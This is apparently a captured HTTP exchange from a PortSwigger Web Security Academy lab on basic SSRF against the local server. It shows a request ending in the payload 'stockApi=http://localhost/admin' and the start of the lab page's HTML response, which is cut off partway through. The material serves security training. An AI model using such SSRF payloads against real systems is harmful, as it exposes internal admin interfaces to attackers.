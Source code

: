 ```python
Referer: https://0a530029036032e782788d590019002a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

stockApi=http://localhost/admin





RESPONSE:




HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=rCuqUD9oyiiIVntKLF789wtMtYmaV7TI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3070

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Basic SSRF against the local server</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Basic SSRF against the local server</h2>
                            <a class=link-back href='https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
```